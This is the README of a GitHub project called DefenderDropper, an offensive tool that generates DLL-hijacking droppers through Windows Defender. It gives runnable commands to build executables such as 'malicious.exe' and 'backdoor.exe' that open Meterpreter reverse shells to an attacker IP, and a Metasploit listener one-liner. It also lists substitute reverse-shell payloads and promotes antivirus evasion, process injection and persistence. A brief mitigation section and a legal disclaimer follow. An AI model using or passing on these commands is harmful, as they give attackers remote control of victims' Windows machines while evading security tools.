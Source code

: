 #  DefenderDropper

**Advanced DLL Hijacking Payload Generator Using Windows Defender Vulnerabilities**

![Banner](assets/banner.jpg)
[![Python](https://img.shields.io/badge/Python-3.6%2B-blue)](https://python.org)
[![Metasploit](https://img.shields.io/badge/Metasploit-Compatible-red)](https://metasploit.com)
[![License](https://img.shields.io/badge/License-MIT-green)](LICENSE)

##  Overview

DefenderDropper is an advanced payload generation tool that leverages the DLL hijacking vulnerability in Windows Defender, originally discovered by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite). This tool automates the creation of sophisticated payloads that bypass security controls by hijacking legitimate Windows Defender processes.

>  **Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

##  Features

- **Windows Defender Exploitation**: Leverages DLL hijacking in Windows Defender
- **Automated Payload Generation**: Creates ready-to-use droppers and DLLs
- **Metasploit Integration**: Seamless integration with Meterpreter payloads
- **Static Compilation**: No external dependencies required
- **Stealth Execution**: Runs through legitimate system processes
- **Multiple Payload Support**: Various reverse shell and Meterpreter options

##  Quick Start

### Prerequisites

```bash
# Install dependencies on Debian/Kali
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```
# Installation
```bash
git clone https://github.com/HackScaleTeam/DefenderDropper.git
cd DefenderDropper
```

# Generate payload
```
python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe
```
# Start Metasploit listener
```
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'
```

# How It Works
Technical Overview
DLL Hijacking: Exploits Windows Defender's vulnerable update process

Process Injection: Injects shellcode into legitimate system processes

Persistence: Leverages trusted Windows components for execution

Evasion: Bypasses common security controls and antivirus solutions

# Attack Flow

![Banner](assets/digram.png)


# File Structure
```
DefenderDropper/
├── defenderdropper.py    # Main payload generator
├── payload.exe           # Generated dropper
├── payload.dll           # Shellcode DLL
├── DefenderWrite.exe     # Core exploit tool
├── README.md
└── LICENSE
```
# Usage Examples
Basic Meterpreter Payload
```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```


# Advanced Features
Custom Payloads

You can modify the generate_shellcode() function to use different Metasploit payloads, on defenderdropper.py search for windows/x64/meterpreter_reverse_tcp and replace it with other payloads:

```
"-p", "windows/x64/shell_reverse_tcp",  # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard Meterpreter
```

# Defense & Mitigation
Detection
Monitor for unusual msiexec.exe child processes

Watch for DLL files in Windows Defender directory

Analyze process hollowing techniques

# Prevention
Keep Windows Defender updated

Implement application whitelisting

Use advanced endpoint protection

Regular security audits

# Legal Disclaimer
This tool is intended for:

 Security research

 Penetration testing with proper authorization

 Educational purposes

 Red team exercises

 Illegal use of this tool is strictly prohibited. The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing any systems.

# Contributing
We welcome contributions from the security community! Feel free to:

Fork the repository

Create feature branches

Submit pull requests

Report issues and suggestions

# Special Thanks
TwoSevenOneT for the original DefenderWrite research

The cybersecurity community for continuous improvement

# License
This project is licensed under the MIT License - see the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/LICENSE). file for details.

 Security is a shared responsibility. Use this tool wisely and ethically.

Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.
